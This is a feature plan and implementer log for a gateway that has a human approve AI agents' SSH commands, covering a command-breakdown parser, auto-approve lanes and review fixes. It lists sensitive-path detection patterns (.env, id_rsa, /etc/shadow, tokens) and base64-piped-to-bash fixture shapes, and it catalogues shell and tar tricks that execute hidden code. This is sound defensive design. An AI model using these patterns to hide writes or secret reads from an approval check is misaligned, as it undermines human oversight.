# Feature Plan — Reviewable approvals & less approval fatigue

Status: **active** · Branch: `feature-roadmap` · Baseline: `master@5c0045f` (security chunks 1–5 + R + H merged), merged into this branch 2026-11-07

This plan turns the feature analysis of 2026-11-06 into small, reviewable
chunks. One agent (the **implementer**) builds one chunk per branch; a second
agent (the **reviewer**) reviews the diff against the chunk's acceptance
criteria and merges it. The security work (`docs/security/HARDENING_PLAN.md`,
chunks 6–7) is **paused** while this plan runs. **Nothing reaches the
dashboard LXC or any gateway until the rollout gate in § 8 passes.**

## 0. Start here (implementer)

1. Read § 1 (why), § 2 (ground rules) and **only** the chunk you are given.
2. Do the chunks **in the order of the status table (§ 9)**. Start with the
   first chunk whose status is **Ready**. Do not start a chunk that says
   *after* another chunk until that chunk is **Merged**.
3. One chunk per branch, one branch per hand-off. When you are done, push the
   branch and stop. The reviewer will answer on the same branch (review notes
   are committed into the chunk's "Reviewer notes" section) or merge it.
4. If anything in a chunk is unclear, contradicts the code, or looks unsafe:
   do the safe, smaller thing, and explain it under **Implementer notes**.
   Do not widen the scope.

---

## 0.1 The features in plain words

| Chunk | What it does for the operator |
|---|---|
| F1 | Splits each long command into steps and labels each step read, write or unknown |
| F2 | The approval card shows "9 steps · 8 read · 1 write: …" and highlights the risky step |
| F7 | Records the real target of `pct exec` / `docker exec`; warns when a Proxmox-host override also covers its containers |
| F3 | The agent proposes a list of changes; approve the list once and those exact commands run without more prompts |
| F4 | Read-only commands can run without asking, per host, opt-in, after a week in "shadow mode" |
| F5 | Records each command's exit code and the end of its output |
| X1 | Bug fix: the sidebar's Approve/Deny work for every kind of request, and approve/deny only act on a request that is still pending |
| F18 | The sidebar shows context from the database: this session's earlier commands, how often this command (or ones like it) ran before and what you decided, the host's state, and why it is waiting for you |
| F12 | Agents run SSH commands through Eshu over MCP with their own token: one identity per agent for SSH and APIs, no shared SSH key |
| F6 | A summary card per session: goal, what ran, what changed, what failed, how much ran under overrides |
| F13 | At the end of a job the agent files a conclusion (what worked, what didn't, the fix); confirmed conclusions become searchable runbooks |
| F8 | Mark test traffic so it stops distorting statistics |
| F9 | Freeze also stops integration writes; read-only views of HA add-ons, backups, updates and system info |
| F10 | Approval-gated HA actions: add-on restart/update, backups, HA update, restart after a passing config check |
| F11 | Edit HA YAML through Eshu with a diff, automatic backup, and automatic undo if the config check fails |
| F14 | "Where is X?": one lookup for a service's host, container, IP, URL, proxy entry and DNS name |
| F15 | One-call health checks (service, container, disk, DNS) that return a short summary |
| F16 | Reviewed, parameterised scripts ("recipes") any agent can run with one approval, often drafted from F13 runbooks |
| F17 | A ready-made setup for a local model in LM Studio: its own token, a small toolset, and a hand-off to Hermes |
| F19 | Commands that run with nobody watching (read lane, probes, read-only recipes) get a hard time limit and output cap on the gateway |
| F21 | Before a risky change inside a Proxmox guest, Eshu can take a snapshot first; one click rolls it back, and old snapshots expire |
| F22 | Each change in a plan can carry a check ("the service is running"); Eshu runs it right after the change and stops the plan if it fails |
| F23 | A per-host timeline of what Eshu changed, with that host's alerts next to it ("this alert started 4 minutes after request X") |
| F24 | Warns on the approval card when a write uses a value the agent first saw in untrusted content (a web page, a log line) |
| F25 | Named secrets per host: a command refers to a key by name, the gateway fills it in, and the agent never sees the value |
| F26 | Try a new agent or model in shadow mode: its writes are recorded, never run, and compared with what you really approved |
| F27 | Allowances: a standing, narrow pre-approval ("Rowana may switch these lights and plugs off, up to 30 times an hour"), visible, rate-limited and revocable; profiles bundle them so a new agent gets them in one click |
| X2 | A Runbooks page: list, search and open confirmed runbooks, and retire old ones |
| F20 | Reserved: the local-agent pass, parked on a local branch until the end |

## 1. Why — what the live data says

A read-only query of the live dashboard database (17 Jul – 6 Nov 2026, about
2,200 SSH requests on 20 gateways, about 690 MCP calls) gave these numbers. Only
aggregates are recorded here; **no raw commands, IPs or session goals go into
this repo** (it is public).

| Observation | Number | What it means |
|---|---|---|
| Real operator denials | ≈ 4 (the other ~110 are test pings) | Denying is rare; a "deny with a reason" feature has low value |
| Average command length by month | 95 → 110 → 418 → **1,329** → 394 chars | Agents now send scripts, not commands |
| Commands > 200 / > 1,000 chars | 641 / 118 | |
| Chained (`&&`/`;`) / piped | ~40% / ~40% | |
| Commands using `echo === SECTION ===` markers (since Sep) | 262 of 1,129 | The agent packs several checks into one approval |
| Distinct commands seen exactly once | 1,148 of 1,248 | The allowlist and gap learning can rarely help |
| Human approval latency | avg 16 s; 49% ≤ 10 s; none > 90 s; >1 kB commands avg 21 s | Long commands cannot be read in the time given |
| Human approvals ≤ 60 s after the previous one | 463 of 848 | Approvals come in bursts |
| JIT approvals given by host/session override, not a human | 419 of 1,267 (33%) | In big sessions the operator gives up and opens an override |
| Biggest sessions: commands via override | 55/113, 89/111, 48/56 | |
| Read-style vs change-style commands (rough keyword count, since Sep) | ~460 vs ~130 | Most traffic is the agent looking around |
| Commands that use `pct exec` / `docker exec` | 23 / 82 | The real target is a container, not the host that is recorded |

**Conclusion.** The bottleneck is *how reviewable a command is*, not policy.
The work below, in order:

1. **Make a command readable in seconds** (break it into steps, mark the writes).
2. **Let reading run without a prompt** where it is safe (opt-in, shadow mode first).
3. **Let the agent ask once for a planned set of changes** instead of the
   operator opening a blanket override.
4. **Record what happened** (exit code and output), so sessions can be reviewed afterwards.

---

## 2. Ground rules (read before every chunk)

### 2.1 Branching and workflow

1. `git fetch origin && git switch feature-roadmap && git pull --ff-only`
2. Create the chunk branch **from `feature-roadmap`**:
   `git switch -c feat/fN-<slug>` (the slug is in each chunk heading).
3. Implement **only that chunk**. Out-of-scope findings go under
   "Implementer notes" — do not fix them.
4. Run the full gate: `bash scripts/verify.sh` (≈ 6 min). It must be green and
   the test count must be **≥ the previous count + the tests you added**.
   Quote the final pytest summary line in your implementer notes.
5. Conventional commits, small and logical, e.g.
   `feat(dashboard): add command breakdown engine`. End every commit message with
   a `Co-Authored-By:` line naming your model, if your harness adds one.
6. `git push -u origin feat/fN-<slug>`. **Do not** merge it yourself and **do
   not** push to `master`, `feature-roadmap` or `security-hardening`.
7. Last commit on the branch: fill in "Implementer notes" for the chunk in this
   file (what you did, anything surprising, what you deliberately did not do,
   the pytest summary line, and for UI chunks the screenshot paths).

The reviewer merges approved chunks into `feature-roadmap` and updates § 9.

### 2.2 Source-of-truth files — never hand-edit generated copies

| Edit this | Never edit by hand |
|---|---|
| `dashboard/eshu-gateway.sh` | `dashboard/eshu-gateway-install.sh` |
| `dashboard/eshu-poller.sh` | `dashboard/static/eshu-gateway-install.sh` |
| `dashboard/eshu-logger.sh` | `dashboard/static/dev/eshu-gateway-install.sh` (managed by the Edge pipeline) |
| `dashboard/eshu-installer-template.sh` | |

After changing any left-hand file:

```bash
cd dashboard && python3 gen_installer.py && cd ..
git diff --stat   # both generated installers must change identically
```

Commit the regenerated `dashboard/eshu-gateway-install.sh` and
`dashboard/static/eshu-gateway-install.sh` **in the same commit** as the
source change. Never touch `dashboard/static/dev/`. Only F5 touches gateway
scripts; every other chunk is dashboard-only.

### 2.3 Compatibility rule

The dashboard is deployed first; gateways update later via Build → Edge → Fleet.

* **New dashboard ↔ old gateway must keep working.** Every request today's
  gateway sends must still be accepted, and every response field it reads keeps
  its shape. New JSON fields are additive only.
* New gateway ↔ new dashboard must work. New gateway ↔ old dashboard need not.
* Each chunk states its compat impact. If you think a change breaks this rule,
  stop and say so in the implementer notes.

### 2.4 Testing rules

* Hermetic only: **no root, no network, no real `/etc`, no paths outside
  pytest's `tmp_path`.** Use the existing harnesses:
  * `tests/conftest.py` — `client` / `auth_client` FastAPI fixtures (state-changing
    calls from `auth_client` need the CSRF header the fixture already sets; check
    how `tests/test_sec_web_hardening.py` does it).
  * `tests/test_gateway_script.py` — `GatewaySandbox` (copies the real
    `eshu-gateway.sh`, relocates paths, stubs `curl`/`logger`). Extend it; don't fork it.
  * `tests/test_poller.py` — same pattern for the poller.
  * `tests/test_db_concurrency.py` — pattern for race tests.
* Test names: `test_fN_<what>`. Every behaviour in "Tests to add" gets a test.
* Do not weaken, skip or delete existing tests. If one must change, say why in
  the commit message.
* `bash scripts/pre-commit.sh` must pass (`bash -n`, `py_compile`, `node --check app.js`, UI token checks).

### 2.5 Data and privacy (the repo is public)

* **No real data in the repo.** Fixtures are synthetic. They may copy the
  *shape* of live traffic (section markers, `pct exec` loops, journalctl
  pipelines, a base64 script piped through `su -c`) but never real hostnames,
  IPs, people's names, paths that reveal people, tokens or `.env` contents.
  Use `192.0.2.x` / `198.51.100.x` (documentation ranges) and names like `web01`.
* Never copy the live database into the repo. `eshu.db` must not be committed.

### 2.6 Safety rules specific to this plan

* **Classification is advisory unless a chunk says otherwise.** F1/F2 change
  only what the operator sees. Only F3 (exact operator-approved bytes) and F4
  (off by default, shadow first) create new auto-approve paths.
* **New auto-approve paths are decided on the dashboard, inside
  `POST /api/request`** (`receive_request`, `dashboard/main.py` ≈ line 680),
  the same way session and host overrides are. The gateway already refuses to
  auto-run anything with shell metacharacters (stage 2.7 `HAS_META` in
  `eshu-gateway.sh`) and runs only the exact bytes of a claimed ticket. **No
  chunk adds a gateway-side allowlist, prefix match or new auto-run stage.**
* Order inside `receive_request` after this plan (keep it exactly):
  metadata validation → rate limit → decode → freeze flag → encoded-payload
  block → **F3 plan** → session override → **F4 read lane** → host override → pending.
  Freeze, Zero-Trust and the blocklists always win.
* Every new approval path writes an audit event and a distinct `reason`
  prefix on the request row (F6 counts on it).
* Every agent-controlled string shown in the UI (command text, step text,
  section names, plan notes) goes through `escapeHtml`. The CSP allows inline
  scripts, so escaping is the real XSS boundary.

### 2.6a Security review gate (agreed with the security work, 2026-11-07)

* **F3 and F4 change what can run without the operator's approval.** Before
  either merges into `feature-roadmap`, the feature reviewer approves it and then
  hands the branch to the **security reviewer** (the `security-hardening` work)
  for a second review. Both reviews are recorded under the chunk's Reviewer notes.
  Same for F10 and F11.
* **One notion of "read".** Security Chunk H (`master@5c0045f`) made the generic
  integration read tools truly read-only: `core/tool_runner.py`
  `_read_only_refusal` (HTTP: GET/HEAD only) and `core/ha_ws_policy.py`
  `is_read_command` (HA WebSocket: deny rules first, reviewed allow lists, an
  unknown command is not a read). New work must reuse these, never re-decide them:
  * Any feature that auto-runs an **integration** call as a read calls the Chunk H checks.
  * F4 (SSH read lane) is the SSH counterpart. It must follow the same design:
    deny rules win, reviewed allow lists (F1's `cmd_rules.py`), fail closed,
    and one entry point, `core/read_policy.py`, that exposes both
    `is_read_integration_call(tool, transport, args)` (a thin wrapper over the
    Chunk H functions, no new logic) and `is_read_ssh(breakdown)` (F4). F4's
    eligibility code calls only `read_policy`, and the refusal/audit shape
    matches Chunk H's (`reason_code`, an audit event, no payload values in the log).

### 2.7 Style

* Python: match the surrounding code; **no new third-party packages**.
* JS: plain ES5-style like `app.js`; no build step, no frameworks.
* Bash (F5 only): keep `set -eo pipefail`, quote every expansion, no new
  dependencies beyond `bash`, `curl`, `python3`, `coreutils`, `systemd`. Gateways
  include a Raspberry Pi 1: no extra `python3` start on the hot path. The
  gateway runs as root via `sudo`; temp files only via `mktemp -p /run/eshu`
  (the private 0700 work dir the poller creates — refuse if it is missing or a symlink).
* **F5 capture is byte-bounded and best effort.** `capture_tail` runs `awk`
  with `LC_ALL=C` and keeps the last 16 385 bytes in a ring of lines (linear
  cost, file written at `END`). The cap counts **bytes**; in a UTF-8 locale
  gawk counts characters. A stream that does not end in a newline stores one
  extra newline: portable awk cannot see the missing newline (only gawk's
  `RT`), so this is accepted rather than emulated — `tee` was byte-exact here.
  The command's status is `PIPESTATUS[0]` of the stream, never the trimmer's;
  a capture that cannot be written logs `CAPTURE FAILED` and changes nothing
  else.
* No drive-by refactors, renames or reformatting.

---

## Chunk F1 — Command breakdown engine · slug `breakdown` · dashboard only

### Goal

A pure, well-tested Python module that turns a command string into a list of
steps, each tagged *read*, *write* or *unknown*, plus a one-line summary.
F2 (UI), F4 (read lane) and F7 (inner target) all build on it.

### Changes

**New `dashboard/core/cmd_parse.py`**

```python
def breakdown(command: str) -> dict
```

Returns:

```json
{
  "version": 1,
  "steps": [
    {"text": "journalctl -u nginx --since today --no-pager",
     "op": "&&",                 // operator joining it to the previous step: "", "&&", "||", ";", "|", "\n"
     "kind": "read",             // read | write | unknown
     "why": "journalctl (no vacuum/rotate)",
     "section": "LOGS",          // nearest preceding echo marker, or ""
     "context": ["pct 103"],     // wrapper chain, outermost first
     "elevated": false,          // sudo / su seen in the wrapper chain
     "input_redirects": [        // F4 SC3: `<`, `<<`, `<<<`, `<&` (omitted when none)
       {"op": "<", "target": "/etc/shadow"}]},
    ...
  ],
  "sections": ["LOGS", "DISK"],
  "summary": {"steps": 9, "read": 8, "write": 1, "unknown": 0},
  "headline": "9 steps · 8 read · 1 write: systemctl restart nginx",
  "inner_targets": ["pct:103"],  // for F7
  "flags": ["redirect-to-file", "heredoc", "input-redirect", "encoded", "nested-ssh", "sensitive-path"],
  "complete": true               // false if parsing gave up somewhere (then kind=unknown)
}
```

Parsing rules:

1. Tokenise with `shlex.shlex(posix=True, punctuation_chars=True)`. Split on
   `&&`, `||`, `;`, `|`, `&` and newlines that are outside quotes.
2. **Section markers:** a step that is only `echo`/`printf` of text matching
   `^[=\-#*\s]*[A-Za-z0-9 _./:-]{1,40}[=\-#*\s]*$` with at least 2 marker
   characters becomes the `section` of the steps that follow. It is not counted
   as a step.
3. **Unwrap wrappers, depth ≤ 3:** `sudo [-n] [-u X]`, `timeout N`, `nice`,
   `ionice`, `env VAR=… cmd`, `sh -c '…'` / `bash -c '…'` (parse the string
   again), `su [-] user -c '…'`, `pct exec <id> -- …`, `docker exec [-i|-t|-u X]* <ctr> …`,
   `docker compose [-f F] exec <svc> …`. Each unwrap adds to `context`. Past
   depth 3 → `unknown`.
4. **Encoded payloads:** if `cmd_codec.detect_encoded_exec` matches, decode with
   `decode_preview` and parse the decoded text as nested steps
   (context `"decoded"`, flag `encoded`). If decoding fails → one `unknown` step.
5. **Heredocs** (`<<`): flag `heredoc`. The body is not executed text unless it
   is fed to `sh`/`bash`/`python*` (then `unknown`).
6. **Redirections:** `>`/`>>` to anything other than `/dev/null`, and `2>&1`
   aside → the step becomes `write` with why `redirect to <path>`; flag `redirect-to-file`.
   `<` input is fine.
7. `$( … )` and backticks: parse the inside as steps (context `"subst"`); the
   outer step's kind is the worst of its own kind and the inner kinds.
8. Nested `ssh` → `unknown`, flag `nested-ssh`. `xargs`, `watch`, `parallel`,
   `find -exec/-execdir/-ok/-delete`, `awk` with `system(` or `print >`,
   `sed` with `-i` or a `w`/`W`/`e` command → `write` or `unknown`
   (**when in doubt, `unknown`**).
9. **Sensitive paths** (flag only; F4 refuses them): `.env`, `*.pem`, `*.key`,
   `id_rsa*`, `id_ed25519*`, `authorized_keys`, `/etc/shadow`, `/etc/gshadow`,
   `/root/.ssh`, `*secret*`, `*token*`, `*passw*`, `*credential*`, `eshu`.

**New `dashboard/core/cmd_rules.py`** — the verb table, kept as data so it can
be reviewed on its own:

* `READ`: `cat head tail grep egrep fgrep rg ls stat file find* df du free
  uptime hostname uname id whoami date ps top(-b) ss netstat(-tulpn variants)
  ip(addr|link|route|neigh + show/list only) lsblk blkid findmnt mount(no args)
  journalctl(no --vacuum-*/--rotate/--flush/--relinquish) systemctl(status
  is-active is-enabled is-failed list-* show cat) docker(ps logs inspect images
  stats --no-stream version info; compose ps/logs/config/version) pct(list
  status config) qm(list status config) zpool(status list) zfs(list get)
  apt(list, policy) apt-cache apt-config(dump) dpkg(-l -s -L) dpkg-query
  sensors smartctl(-a -H -i -x) nvme(smart-log list) dmesg(no -c/-C) lscpu
  lspci lsusb nproc sort uniq wc cut tr awk* sed* echo printf test [ true
  which type command(-v) readlink realpath basename dirname git(status log
  diff show branch, no -c) python3(-V/--version) node(-v) wc jq yq`
  (`*` = with the argument limits from rule 8).
* `WRITE`: everything in `cmd_risk.RISK_RULES`, plus `rm mv cp mkdir rmdir
  touch ln chmod chown tee dd mkfs* truncate systemctl(start stop restart
  reload enable disable mask unmask daemon-reload) docker(run rm rmi stop start
  restart kill pull build compose up/down/pull/restart) apt/apt-get(install
  remove purge upgrade full-upgrade dist-upgrade autoremove update) pip/npm
  install kill pkill killall reboot shutdown poweroff halt crontab useradd
  usermod userdel passwd iptables(-A -I -D -F) ufw nft umount mount(with args) sysctl -w`.
* Anything else → `unknown`. `curl`/`wget` → `unknown` for F4 purposes, but
  `why` says "network fetch (GET)" when there is no `-o/-O/-T/-d/--data*/-X`
  other than GET, so F2 can render it softly.

**Hook in `main.py`:** `list_requests` attaches `r['breakdown'] = breakdown(cmd)`
to **pending** rows only (next to `risk`/`anomaly`). Add
`GET /api/requests/{req_id}/breakdown` (session auth) for history rows. Cache
results in a small LRU keyed by `sha256(command)` (`functools.lru_cache(maxsize=512)`
on the command string), because the queue is polled.

**New `scripts/breakdown_report.py`** — offline evaluation:
`python3 scripts/breakdown_report.py --db PATH [--since YYYY-MM-DD] [--show-unknown N]`.
Opens the DB **read-only** (`file:…?mode=ro`), runs `breakdown` over distinct
commands, and prints aggregates only: % of steps read/write/unknown, % of
commands that are fully read, top 20 `unknown` verbs (verb only, not the
command). `--show-unknown` prints example steps and exists only for local use.
The reviewer runs this against a copy of the live DB; its output is not committed.

### Tests to add (`tests/test_cmd_parse.py`, `tests/fixtures/commands/*.txt`)

* A table of ≥ 60 synthetic cases covering every rule above, including:
  section-marker scripts; `pct exec` loops over 3 ids; `docker exec` + `sh -c`;
  `su - u -c "echo <b64> | base64 -d | bash"` (decoded steps appear);
  journalctl | grep | sed | sort | uniq pipelines (all read);
  `sed -i`, `tee`, `> file`, `>> file`, `2>&1`, `> /dev/null`;
  `find … -delete`, `awk '{system("x")}'`; nested ssh; quotes containing `;` and `|`
  (must **not** split); depth-4 wrapping (→ unknown); unterminated quote
  (→ `complete: false`, one unknown step, no exception).
* Property-style: for 500 random strings, `breakdown` never raises and
  `summary` counts add up to `len(steps)`.
* `breakdown` of a step that `cmd_risk.get_cmd_risk` flags is never `read`
  (consistency with the existing risk map).
* API: a pending row in `/api/requests` has `breakdown`; history rows do not;
  `/api/requests/{id}/breakdown` returns it and needs a session.
* Performance: 1,000 breakdowns of a 2 kB command finish in < 2 s on CI.

### Compat impact

Additive JSON fields and one new GET endpoint. No gateway change.

### Acceptance criteria

- [ ] All tests green; `bash scripts/verify.sh` count ≥ baseline + new tests.
- [ ] Reviewer's `breakdown_report.py` run on the live DB copy (SSH rows only, see R11):
      ≤ 20% of steps `unknown`, and every `unknown` in the top 20 is either justified
      (interpreter code, `curl`, site-specific CLIs, user-defined functions) or added to the rules.
      *(Revised in review round 1 from 15%: the first measurement showed the remaining
      unknowns are mostly legitimately opaque.)*
- [ ] Not one fixture contains real hostnames, IPs or secrets.
- [ ] No behaviour change: `/api/policies/test`, `/preview` and the gateway are untouched.

### Implementer notes

**What shipped**

* `dashboard/core/cmd_rules.py` — the verb table: `classify(argv) -> (kind, why)`,
  argument-aware for `systemctl`, `journalctl`, `docker`, `apt`, `dpkg`, `find`,
  `sed`, `awk`, `ip`, `git`, `mount`, `sysctl`, `crontab`, `iptables`, … plus the
  sensitive-path patterns. Data-heavy so the security-relevant half can be
  reviewed on its own.
* `dashboard/core/cmd_parse.py` — `breakdown(command)`: shlex tokenising, section
  markers, wrapper unwrapping (depth ≤ 3), encoded payloads, heredocs,
  redirections, `$( … )`/backtick substitutions, shell keywords, flags,
  `inner_targets`, summary and headline. Cached with
  `functools.lru_cache(maxsize=512)`; each call returns a deep copy.
* `dashboard/main.py` — `list_requests` attaches `breakdown` to **pending** rows
  only (next to `risk`/`anomaly`); new `GET /api/requests/{req_id}/breakdown`
  (session auth, 404 on an unknown id). Nothing else changed.
* `scripts/breakdown_report.py` — read-only (`file:…?mode=ro`) aggregates: step
  split, fully-read share, top-20 unknown verbs; `--show-unknown N` prints
  examples and is explicitly local-use only.
* `tests/test_cmd_parse.py` + `tests/fixtures/commands/*.txt` — a 94-case table
  over 10 fixture files, plus property, risk-consistency, cache, performance,
  report and API tests.

**Surprises and decisions worth a look**

1. **shlex punctuation runs.** `shlex` hands back `);`, `))` and `&&` as single
   tokens, so a closing parenthesis never matched. `_normalise()` splits runs
   into single operators before paren matching and statement building.
2. **Encoded payloads need a long blob.** `cmd_codec.decode_preview` only looks
   at base64 runs of ≥ 16 characters, so `echo dXB0aW1l | base64 -d | bash`
   (8 chars) is correctly "could not decode" and becomes one `unknown` step.
   The fixtures use realistic multi-line payloads.
3. **Loop headers.** `for …; do …; done`, `case … esac` and `if …; then` are
   structure, not commands: `for`/`case` headers are dropped (substitutions
   inside them are still parsed), `if`/`while` keep their condition.
   `pct exec $i …` with a variable id stays `unknown`, because the chunk's
   `pct exec <id>` needs a literal id and expanding loop variables is a parser
   feature the chunk does not ask for.
4. **A `case` body must not hide behind its header.** `case x in a) rm …` used
   to reach the parser as one argv (`)` was dropped), so the `rm` vanished into
   the dropped header. `)` is now a soft statement boundary; regression case
   `loops.txt::case-block`.
5. **Risk-map agreement.** `cmd_risk.get_cmd_risk` has false positives
   (`\brm\b` also matches `cat /tmp/rm`), so a step the risk map flags is
   never reported `read` — it degrades to `unknown`. That makes the chunk's
   consistency test true by construction.
6. **Cache key.** The chunk says "LRU keyed by `sha256(command)`
   (`lru_cache` on the command string)". I used `lru_cache(maxsize=512)` on the
   command text itself: hashing first would add a copy and lose readability for
   no gain.
7. **Verb table additions beyond § F1's READ list.** The acceptance criterion
   says unknown verbs are "justified or added to the rules", so I added
   read-only/recon verbs that were missing: `pwd printenv env false sleep seq
   groups getent lsof pgrep pidof lsns tty w who users last sha256sum sha1sum
   md5sum cksum diff cmp tree column rev paste comm lsmod modinfo locale
   lsb_release dmidecode lshw nvidia-smi pveversion vcgencmd systemd-analyze`,
   the session-local builtins `cd pushd popd export unset set shift umask`, and
   argument-aware `hostnamectl`/`timedatectl` plus `systemctl --failed` (a
   subcommand-less `systemctl` is a listing). All are read-only or only change
   the shell's own state; drop any you disagree with and the table says which
   fixtures move.
8. **`docker stats` without `--no-stream` is `unknown`** (it streams forever),
   and `sed 's/x/y/e'` / `awk system(…)` are `unknown` rather than `write`,
   because they execute rather than write.
9. **`<<-EOF`** arrives from shlex as `<<` + `-EOF`; the dash is re-attached so
   a tab-stripped body is still skipped. A heredoc whose closing delimiter never
   arrives sets `complete: false` — we cannot tell which lines the shell runs.
10. **Compatibility.** Additive only: one new JSON field on pending rows and one
    new GET. Old gateways are untouched; `/api/policies/test`, `/preview` and
    the gateway scripts are unchanged.

**Deliberately not done**

* No F2 UI, no gateway change, no read-lane/plan plumbing (F3/F4 own those), no
  new dependencies, no loop unrolling, no change to `cmd_risk`, policy or
  blocklist behaviour.
* `docs/TOOLSHED_PLAN.md` and `scripts/eval_tool_discovery.py` were already
  untracked in the working tree when I started; they are **not** part of this
  branch.
* The reviewer's live-database run of `scripts/breakdown_report.py`
  (≤ 15 % unknown steps) is still to do — it needs the database copy.
* Heads-up for the reviewer: running `bash scripts/verify.sh` leaves
  `dashboard/static/dev/eshu-gateway-install.sh` modified. `tests/test_golden.py`
  exercises `POST /api/dev/seed`, which copies the golden installer over the dev
  copy. That is a pre-existing side effect, unrelated to F1; I reverted it and
  committed nothing under `static/dev/`.

**Tests**

94 synthetic cases (10 fixture files) plus property, risk-consistency, cache,
performance, report and API tests: **321 tests added** (baseline 1343).
`bash scripts/verify.sh`:

```
1664 passed, 7 warnings in 339.63s (0:05:39)
```

**Round 2 — 2026-11-07 — round 1 addressed.**

All eleven items are fixed on this branch. Every item has a regression test
that failed on the reviewed commit and passes now; they live in
`tests/test_cmd_parse.py::TestReviewRound1`. The direction is now closed the
other way: a step is never `read` (and never disappears) where the shell would
write or execute.

| # | Done | How | Test |
|---|---|---|---|
| R1 | yes | `shlex` runs with `commenters=''`; `_strip_comments()` removes `#` only at a word start outside quotes and copies heredoc bodies verbatim (so `# $(…)` in a body still counts). | `test_f1_r1_hash_inside_word_is_not_a_comment` |
| R2 | yes | `_scan_heredocs()` reads the raw text before lexing and records each heredoc's delimiter quoting and body; statements carry the spec. Unquoted bodies are scanned for `$(…)`/backticks and parsed with context `heredoc` (quoted ones stay data). Redirect targets and here-string words are scanned too. | `test_f1_r2_heredoc_body_substitution`, `test_f1_r2_quoted_heredoc_body_is_data`, `test_f1_r2_herestring_and_redirect_target_substitution` |
| R3 | yes | `<( … )`/`>( … )` become one word atom; `_strip_substitutions()` reports `procsubst`/`procsubst-out`; inner steps parse with context `procsubst`, the outer kind is the worst of its own and the inner kinds, and an output sink floors it at `write`. `complete` is no longer `false`. | `test_f1_r3_process_substitution` |
| R4 | yes | `_sed_inplace()` walks short-flag clusters (`-Ei`, `-ni`, `-ri`, `-si`, `-i.bak`) and stops at value-taking letters `e`/`f`/`l`; `_sed_has_script_file()` handles `-f`/`--file` (→ `unknown`); `_sed_script_risk()` parses `s` commands with any delimiter plus their trailing flags (`e` → `unknown`, `w`/`W` → `write`), and every `-e` expression is scanned. | `test_f1_r4_sed_combined_flags_and_scripts` |
| R5 | yes | `DANGEROUS_ENV_NAMES`/`_PREFIXES` + `dangerous_env_name()`; `_dangerous_env_change()` checks leading assignments and `env` arguments at every unwrap level (so `sudo env …` is covered); `export`/`unset`/`set` left `READ_VERBS` and got handlers (`_declaration`, `_shell_state`, `_read_builtin`, `_printf`). A bare dangerous assignment now emits an `unknown` step instead of vanishing. Safe assignments stay `read`. | `test_f1_r5_dangerous_assignments`, `test_f1_r5_state_builtins_are_unknown` |
| R6 | yes | `resolve_verb()` + `SYSTEM_BIN_DIRS`; `classify()` refuses non-system paths, `_unwrap()`/`_has_wrapper()`/shell detection refuse to unwrap a non-system `sudo`/`timeout`/`env`/`sh`, and a non-system `echo` is no longer a section marker. | `test_f1_r6_path_qualified_verbs` |
| R7 | yes | awk: `system (` with whitespace, `print … \| "cmd"`, `@include`, `-f`; find `-fprint0`; git `--output`/`--ext-diff`/`--textconv`; smartctl action flags before read flags; `ip netns exec` unwrapped (context `netns NS`); `sort --compress-program`; `tree -o`; `dmidecode --dump-bin`; `systemd-analyze set-*`; nvidia-smi/vcgencmd allowlists; new `follows` flag for `tail -f`, `journalctl -f`, `docker logs -f`, `dmesg -w`, `docker events`. | `test_f1_r7_awk_exec_and_pipes`, `test_f1_r7_git_output_and_external_diff`, `test_f1_r7_smartctl_actions_win`, `test_f1_r7_ip_netns_exec_is_a_wrapper`, `test_f1_r7_misc_verb_paths`, `test_f1_r7_follow_flag` |
| R8 | yes | `shadow` and `environ` added to `SENSITIVE_HINTS`; `_sensitive_command()` flags `docker inspect`, `docker compose config` and bare `env`/`printenv`. | `test_f1_r8_sensitive_reads` |
| R9 | yes | `_group_sink()` decides: shell sinks (including `sh -s` and `eval`) are decoded into steps as before; interpreter sinks (`python*`, `perl`, `ruby`, `node`) become **one** `unknown` step, why `decoded <lang> script (N lines)`, with the source in a new `script` field; unrecognised sinks keep the outer steps (still flagged `encoded`). Interpreter heredocs (`python3 - <<'PY'`) get the same single step + `script`, capped at 8 KiB. | `test_f1_r9_decoded_interpreter_payload_is_one_step`, `test_f1_r9_python_heredoc_is_one_step` |
| R10 | yes | `:`, `exit`, `return`, `break`, `continue`, `wait` are `read` (why `shell control`); `tar` parses its mode (`t` read, `x`/`c`/`r`/`u`/`A` write, bundled `tf`/`czf`, `--list`/`--extract`); `install` is a write; `runuser` is a wrapper (`-u … -- cmd` and `-l … -c '…'`, context `runuser`, elevated); `_extract_functions()` drops definition headers and records the worst kind of each body, so a later call reports `calls function f` with that kind. Undefined functions stay `unknown`. | `test_f1_r10_control_tar_install`, `test_f1_r10_runuser_is_a_wrapper`, `test_f1_r10_shell_functions` |
| R11 | yes | `scripts/breakdown_report.py` excludes `status LIKE 'integration-%'` by default, `--include-integration` opts back in, and the excluded row count is printed. | `test_f1_r11_report_excludes_integration_rows` |

Three things for the reviewer to know about the new output:

* a step may now carry a `script` field (only the R9 interpreter steps). It is
  additive; F2 can render it collapsed.
* the `follows` flag is new; F4 should refuse it, because such a command never
  ends.
* `>( … )` floors its step at `write` even when the sink itself only reads
  (`ls >(cat)`) — the conservative reading of "at least write-adjacent".

`bash scripts/verify.sh` (all pre-commit checks green):

```
1686 passed, 7 warnings in 339.60s (0:05:39)
```

(1343 baseline + 321 round 1 + 22 round 2.)

**Round 3 — 2026-11-07 — round 2 addressed.**

S1–S7 are fixed on this branch (on top of the merge of `feature-roadmap`, which
brings security Chunk H). Each has a regression test that failed on the
reviewed commit; they live in `tests/test_cmd_parse.py::TestReviewRound2`.

| # | Done | How | Test |
|---|---|---|---|
| S1 | yes | Heredoc bodies are now skipped only when the newline that starts them arrives, and the heredoc attaches to the statement it belongs to — so `cat <<EOF; rm x` and `cat <<EOF && rm x` keep the second command as a `write` step instead of swallowing it. | `test_f1_s1_command_after_heredoc_operator_same_line` |
| S2 | yes | `_scan_heredocs()` collects **every** heredoc operator on the operator line first (`_heredoc_ops`) and then reads the bodies in order, each with its own quoting; `cat <<A <<B` scans both bodies. Quoted/partially quoted delimiters (`'A'`, `E"O"F`, `\EOF`) still mark the body as data. | `test_f1_s2_every_heredoc_body_is_scanned` |
| S3 | yes | `>&` with a non-numeric target joined the write redirects (a digit or `-` is still fd duplication), and `&>>` is parsed as one operator instead of `&>` + `>` — which had lost the target and set `complete: false`. | `test_f1_s3_ampersand_redirects_write_files` |
| S4 | yes | `tar` treats `--checkpoint-action` with `exec`, `-I`/`--use-compress-program`, `-F`/`--info-script`/`--new-volume-script`, `--rsh-command` and `--rmt-command` as `unknown` (`tar runs a program`) before any mode parsing. `--to-command` is left as it was, per the review. | `test_f1_s4_tar_options_that_execute` |
